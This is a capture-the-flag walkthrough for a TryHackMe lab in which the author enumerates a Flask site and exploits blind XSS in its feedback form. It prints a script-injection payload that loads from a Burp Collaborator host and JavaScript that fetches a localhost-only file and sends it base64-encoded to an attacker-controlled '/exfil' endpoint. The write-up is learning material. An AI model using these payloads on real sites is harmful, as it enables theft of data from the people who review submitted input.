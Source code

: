 
🧠 Introduction

Another day, another CTF — and this one comes with some valuable lessons.

In this walkthrough, I document my full methodology for solving The Sticker Shop room on TryHackMe. You’ll see the correct exploitation path, but also the dead ends, mistakes, and misjudgments I made along the way. This isn't just a guide to the flag — it's a realistic breakdown of how problem-solving in CTFs actually unfolds.

I’ve redacted some specifics to avoid spoilers or encouraging shortcut flag hunting. The goal is learning — not farming points.
🎯 Room Scenario

    Your local sticker shop just launched their website. The same computer used for hosting is also used for browsing and checking customer feedback. Smart, right?

The objective is simple:

Can you retrieve the contents of http://10.10.91.51:8080/flag.txt?
🛰 Initial Recon

While waiting for the machine to boot, I set up my workspace with a structured folder layout. Good habits go a long way.

I began with a full port scan:

nmap -p- 10.10.91.51

Only port 8080 was open — pointing to a web application.
🌐 Web Application Inspection

Accessing http://10.10.91.51:8080 led to a basic website. It had a feedback form and a playful, amateur aesthetic — in line with the storyline.
🔍 Werkzeug & Python Detected

Viewing response headers showed the server was running Werkzeug and Python — likely Flask. The versions appeared outdated.
🔎 Exploring the Feedback Functionality

I tested the feedback form by submitting basic input to check for any reflection or direct interaction. No output or response was reflected to the screen.

So I captured the POST request using Burp Suite, forwarded it to Repeater, and started analyzing the backend behavior.

Still, nothing interesting was exposed — but the form mentioned that feedback would be reviewed by the team. That detail stood out.

    ✅ Key Observation: Manual review of submitted feedback could indicate a Blind XSS opportunity.

🧱 Directory Enumeration

I ran Gobuster to brute-force hidden paths:

gobuster dir -u http://10.10.91.51:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Unfortunately, no interesting directories were found. So I moved on.
🧠 Hypothesis: Blind XSS via Manual Review

The structure of the challenge, coupled with the manual feedback note, hinted toward a Blind Cross-Site Scripting (XSS) vector.

To test it, I used Burp Collaborator and submitted a basic Blind XSS payload through the feedback form:

"><script src=https://<your-collaborator-subdomain>.oastify.com></script>

I submitted a few variants, waited… and got a DNS pingback.

    💥 Success! Blind XSS was triggered — confirmation the admin is opening the feedback in a browser.

📤 Delivering the Exploit Payload

Now that XSS was confirmed, it was time to weaponize it.

The objective: steal the contents of flag.txt hosted at http://127.0.0.1:8080/flag.txt — a file that’s only accessible from localhost.

I hosted my own endpoint and wrote a malicious JavaScript payload to:

    Fetch the flag from 127.0.0.1

    Encode it in Base64

    Send it to my server via a GET request

Payload Structure

fetch('http://127.0.0.1:8080/flag.txt')
  .then(res => res.text())
  .then(data => {
    const encoded = btoa(data);
    fetch('http://<your-server>/exfil?' + encoded);
  });

After submitting it via the feedback form, I monitored my server…

✅ Boom — Base64-encoded flag received.

Decoded it locally and mission accomplished.
📋 Summary (Management Style)

Vulnerability Type: Blind Cross-Site Scripting (XSS)
Attack Vector: Feedback form reviewed manually in browser
Impact: Exfiltration of sensitive local file (flag.txt) via XSS
Tools Used:

    nmap for enumeration

    Burp Suite for interception & testing

    Gobuster for directory brute-forcing

    Custom XSS payload with fetch & exfiltration
